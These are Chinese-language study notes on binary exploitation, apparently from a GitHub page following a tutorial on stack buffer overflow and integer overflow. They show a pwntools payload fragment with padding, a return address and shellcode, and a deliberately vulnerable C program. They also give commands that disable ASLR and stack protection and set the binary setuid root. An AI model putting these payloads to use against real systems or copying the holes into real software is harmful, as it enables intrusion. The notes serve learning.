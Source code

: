   ```c
    payload = b"a"*(0x10+0x8) + p64(ret_addr) + shellcode           # 填充位 + 返回地址 + shellcode，填充位不包含r长度
    io.recvuntil(b"Input anything : \n")
    io.sendline(payload)
    io.interactive() 
    ```

### [基础教程](https://sploitfun.wordpress.com/2015/)
#### 1.1 Stack  Buffer Overflow
不知道为什么无法复现，在root关掉ASLR的情况下跑Python2有问题，但是在GDB里面好像随机化依旧生效  
1. 源码vuln.c
    ```c
    //vuln.c
    #include <stdio.h>
    #include <string.h>

    int main(int argc, char* argv[]) {
        /* [1] */ char buf[256];
        /* [2] */ strcpy(buf,argv[1]);
        /* [3] */ printf("Input:%s\n",buf);
        return 0;
    }
    ```
2. 编译出可执行文件vuln，要加上-m32以编译成32位文件
    ```bash
    (root) echo 0 > /proc/sys/kernel/randomize_va_space
    $ gcc -m32 -g -fno-stack-protector -z execstack -o vuln vuln.c
    $ sudo chown root vuln | sudo chgrp root vuln | sudo chmod +s vuln
    ```
3. GDB查看
    ```bash
    $ gdb -q vuln
        - Reading symbols from ...
    (gdb) disassemble /*function_name*/
        - 查看汇编
    (gdb) r `python2 -c 'print "A"*300'`
        - Segmentation fault
    (gdb) p/x $eip
        - 查看寄存器，但是这里没办法复现
    ```
4. 计算地址  
    他的layout图嘎了，暂且没搞懂是怎么算的，确实不会

- 附 汇编录寄存器：  
  1. EIP寄存器里存储的是CPU下次要执行的指令的地址。也就是调用完fun函数后，让CPU知道应该执行main函数中的printf（"函数调用结束"）语句了。
  2. EBP寄存器里存储的是是栈的栈底指针，通常叫栈基址，这个是一开始进行fun()函数调用之前，由ESP传递给EBP的。（在函数调用前你可以这么理解：ESP存储的是栈顶地址，也是栈底地址。）
  3. ESP寄存器里存储的是在调用函数fun()之后，栈的栈顶。并且始终指向栈顶。
#### 1.2 Integer Overflow
应该和1.1同样，基础题，在电脑没关随机化之类的情况下啥也干不了
1. 源码vuln.c  
    和栈溢出类似，不过多了一次输入字节长度检查。但是可以利用整数溢出，例如本题中unsigned char变量passwd_len上限是256，那么当输入的字节长度为261时，发生溢出，passwd_len变为5，借此可以绕过长度检查，对下面进行栈溢出。
    ```c
    //vuln.c
    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>

    void store_passwd_indb(char* passwd) {
    }

    void validate_uname(char* uname) {
    }
   ```